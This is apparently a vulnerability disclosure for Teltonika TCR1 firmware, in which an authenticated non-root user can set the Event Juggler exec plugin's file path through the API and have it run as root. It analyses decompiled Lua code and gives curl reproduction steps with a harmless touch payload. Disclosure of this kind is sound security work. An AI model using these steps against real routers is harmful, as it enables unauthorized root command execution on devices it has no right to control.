




# H-13: Event Juggler Exec Plugin — Arbitrary File Execution (Privilege Escalation to Root)

## Basic Information

| Item | Details |
|------|---------|
| **Device** | Teltonika TCR1 |
| **Firmware Version** | R_00.07.14.4 |
| **Vulnerable File** | `api/services/event_juggler_actions.lua` |
| **Severity** | High |
| **Prerequisites** | Any authenticated user (non-root group is sufficient) |
| **Impact** | Regular user → root-level arbitrary command execution |

---

## Vulnerability Analysis

### Core Issue

The Event Juggler exec plugin allows users to configure an executable file path via the API. When an event is triggered, the `event_juggler` process (running as root) executes the specified file. The path validation is extremely weak, and there is no permission restriction.

### Key Code Analysis

#### 1. Path Validation — Only Checks if Value Is a String (Lines 281-283)

```lua
-- event_juggler_actions.lua Lines 281-283
L5_5:option("exec_file_path").validate = function(A0_68, A1_69)
    return A0_68.dt:string(A1_69)  -- dt:string() returns true for any string
end
```

`dt:string()` is a validation function that always returns `true`. Any string (including arbitrary filesystem paths) passes this check.

#### 2. Path Storage — No Whitelist, No File Existence Check (Lines 287-311)

```lua
-- event_juggler_actions.lua Lines 287-311
function L4_4.set_exec_path(A0_72)
    local L1_73, L2_74, L3_75, L4_76, L5_77

    -- Read current exec_path
    L1_73 = A0_72:table_get(A0_72.config, A0_72.sid, "exec_path")

    -- Read exec_file_type ("path" or "upload")
    L2_74 = A0_72:get_abs_value(A0_72.config, A0_72.sid, "exec_file_type")

    -- Read exec_file_path (arbitrary path provided by user)
    L3_75 = A0_72:get_abs_value(A0_72.config, A0_72.sid, "exec_file_path")

    -- Read exec_file_upload
    L4_76 = A0_72:get_abs_value(A0_72.config, A0_72.sid, "exec_file_upload")

    -- Select path based on file_type: "path" mode directly uses the user-provided path
    L5_77 = L2_74 == "path" and L3_75 or L4_76

    -- Directly written to UCI configuration without any validation
    if L5_77 ~= L1_73 then
        A0_72:table_set(A0_72.config, A0_72.sid, "exec_path", L5_77)
    end
end
```

In `exec_file_type="path"` mode, `set_exec_path` directly writes the user-supplied `exec_file_path` into the UCI `exec_path` field. There is no:
- Path whitelist
- Directory restriction
- File existence check
- File permission check

#### 3. Permission Flaw — Path Mode Does Not Require Root Group (Lines 235-237)

```lua
-- event_juggler_actions.lua Lines 235-237
L4_4.filenames_root_permission = L2_2.combine(L4_4.filenames_root_permission, {
    "exec_path_upload"  -- Only upload mode requires root permissions
})
```

The `filenames_root_permission` list only includes `exec_path_upload` (upload mode), not `exec_file_path` (path mode). This means any authenticated user (including regular users not in the root group) can set an arbitrary execution path via path mode.

#### 4. Execution Context — Root Privileges

The `event_juggler` process runs as root (visible via `ps`, the PID is owned by root). When a configured event triggers, it executes the file pointed to by `exec_path` with root privileges.

### Attack Flow

```
Attacker (regular authenticated user)
    │
    ├── PUT /api/event_juggler/operations/config/<action_id>
    │   └── {"exec_file_path": "/bin/touch", "exec_arguments": "/tmp/hack.txt"}
    │
    ├── dt:string() validation → PASS (any string accepted)
    │
    ├── set_exec_path() → Writes UCI exec_path="/bin/touch"
    │
    └── Event triggers → event_juggler (root) executes /bin/touch /tmp/hack.txt
```

---

## Reproduction Steps

### Environment

- **Host Machine**: Arch Linux (192.168.122.1)
- **Test Device**: Teltonika TCR1 QEMU Virtual Machine (192.168.122.10:8888)
- **Firmware**: TCR1_R_00.07.14.4_WEBUI

### Preparation

```bash
# Set variables
API="http://192.168.122.10:8888/api"
TOKEN="<your_token>"
```

### Step 1: Obtain Token

```bash
TOKEN=$(curl -s -X POST "$API/login" \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"<password>"}' \
  | python3 -c "import sys,json;print(json.load(sys.stdin)['ubus_rpc_session'])")
```



### Step 2: Retrieve Action ID

```bash
curl -s "$API/event_juggler/operations/config" -H "Authorization: Bearer $TOKEN"
```



Response example:
```json
{
  "success": true,
  "data": [{
    "plugin": "exec",
    "exec_file_path": "/usr/bin/test",
    "name": "action1",
    "exec_file_type": "path",
    "id": "cfg034d03",
    "exec_arg_type": "text",
    ".type": "action"
  }]
}
```

### Step 3: Modify Execution Path via API

```bash
curl -v -X PUT "$API/event_juggler/operations/config/cfg034d03" \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"data":{"exec_file_path":"/bin/touch","exec_arguments":"/tmp/hack.txt"}}'
```



**Returns HTTP 200 OK**:
```json
{
  "success": true,
  "data": {
    ".type": "action",
    "exec_file_type": "path",
    "exec_arg_type": "text",
    "plugin": "exec",
    "name": "action1",
    "exec_file_path": "/bin/touch",
    "id": "cfg034d03",
    "exec_arguments": "/tmp/hack.txt"
  }
}
```

No file upload is required — a pure API call is sufficient to point the execution target to any system command.

### Step 4: Wait for / Trigger Event Execution

When the associated event triggers (boot events trigger on device reboot, time events trigger on schedule), `event_juggler` executes `/bin/touch /tmp/hack.txt` with root privileges.

Manual trigger for verification:
```bash
# SSH into the device
kill $(pidof event_juggler)
/usr/sbin/event_juggler --boot &
sleep 3
ls -la /tmp/hack.txt
```

### Step 5: Verify Result

```bash
root@OpenWrt:/# ls /tmp
 hack.txt
```

`/tmp/hack.txt` was created, confirming that the command was executed successfully with root privileges.




---
